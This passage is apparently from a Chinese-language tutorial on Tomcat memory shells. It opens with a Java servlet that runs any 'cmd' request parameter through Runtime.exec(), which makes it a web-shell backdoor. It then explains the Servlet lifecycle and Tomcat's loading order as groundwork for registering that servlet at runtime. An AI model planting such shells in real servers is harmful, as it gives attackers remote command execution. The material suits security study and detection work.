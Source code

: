 ```java
    public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        if (cmd !=null){
            try{
                Runtime.getRuntime().exec(cmd);
            }catch (IOException e){
                e.printStackTrace();
            }catch (NullPointerException n){
                n.printStackTrace();
            }
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}
```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712726438093-1869cc3e-18ad-415a-ab2e-da2598477b21.png)
下面就是实现动态注册`Servlet`了。

### 4.3.1、Servlet创建流程

我们知道`Servlet`的生命周期分为如下五部分

1. 加载：当`Tomcat`第一次访问`Servlet`的时候，`Tomcat`会负责创建`Servlet`的实例
2. 初始化：当`Servlet`被实例化后，`Tomcat`会调用`init()`方法初始化这个对象
3. 处理服务：当浏览器访问`Servlet`的时候，`Servlet` 会调用`service()`方法处理请求
4. 销毁：当`Tomcat`关闭时或者检测到`Servlet`要从`Tomcat`删除的时候会自动调用`destroy()`方法，让该实例释放掉所占的资源。一个`Servlet`如果长时间不被使用的话，也会被`Tomcat`自动销毁
5. 卸载：当`Servlet`调用完`destroy()`方法后，等待垃圾回收。如果有需要再次使用这个`Servlet`，会重新调用`init()`方法进行初始化操作

[前面](https://www.yuque.com/exmmmys/wnuua5/navlga3lr8rqlnaa)我们已经分析过，在`org.apache.catalina.core.StandardContext`类的`startInternal()`方法中，我们能看到`Listener->Filter->Servlet`的加载顺序

```java
...
 
if (ok) {
                if (!listenerStart()) {
                    log.error(sm.getString("standardContext.listenerFail"));
                    ok = false;
                }
            }
 
 
            try {
                // Start manager
                Manager manager = getManager();
                if (manager instanceof Lifecycle) {
                    ((Lifecycle) manager).start();
                }
            } catch(Exception e) {
                log.error(sm.getString("standardContext.managerFail"), e);
                ok = false;
            }
 
```